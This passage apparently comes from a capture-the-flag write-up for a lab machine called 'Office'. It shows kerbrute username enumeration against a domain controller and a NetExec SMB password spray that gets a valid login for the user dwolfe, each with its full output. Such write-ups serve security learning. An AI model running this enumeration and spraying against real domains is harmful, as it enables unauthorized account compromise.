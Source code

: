 ## Domain Enumeration
Since port `88` is open, we continue by enumerating available usernames from the Domain Controller with `kerbrute`.

```console
$ kerbrute userenum -d office.htb --dc 10.10.11.3 jsmith.txt
    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 07/16/24 - Ronnie Flathers @ropnop

2024/07/16 09:52:36 >  Using KDC(s):
2024/07/16 09:52:36 >  	10.10.11.3:88

2024/07/16 09:52:41 >  [+] VALID USERNAME:	 ewhite@office.htb
2024/07/16 09:52:54 >  [+] VALID USERNAME:	 dmichael@office.htb
2024/07/16 09:52:56 >  [+] VALID USERNAME:	 dwolfe@office.htb
2024/07/16 09:53:01 >  [+] VALID USERNAME:	 tstark@office.htb
2024/07/16 09:53:54 >  [+] VALID USERNAME:	 hhogan@office.htb
2024/07/16 09:54:00 >  [+] VALID USERNAME:	 ppotts@office.htb
```
We found 6 usernames from the `jsmith` wordlist and will add them to our `ad_users.txt` list. 

# Foothold
## Access as Dwolfe
We perform a password spraying attack using [NetExec](https://github.com/Pennyw0rth/NetExec) on the domain with the found password from the Joomla website.

```console
$ cat ad_users.txt
Administrator
ewhite
dmichael
dwolfe
tstark
hhogan
ppotts

$ nxc smb office.htb -u ad_users.txt -p 'H0lOgrams4reTakIng0Ver754!' --continue-on-success
SMB         10.10.11.3      445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.3      445    DC               [-] office.htb\Administrator:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE
SMB         10.10.11.3      445    DC               [-] office.htb\ewhite:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE
SMB         10.10.11.3      445    DC               [-] office.htb\dmichael:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE
SMB         10.10.11.3      445    DC               [+] office.htb\dwolfe:H0lOgrams4reTakIng0Ver754!
SMB         10.10.11.3      445    DC               [-] office.htb\tstark:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE
SMB         10.10.11.3      445    DC               [-] office.htb\hhogan:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE
SMB         10.10.11.3      445    DC               [-] office.htb\ppotts:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE
```
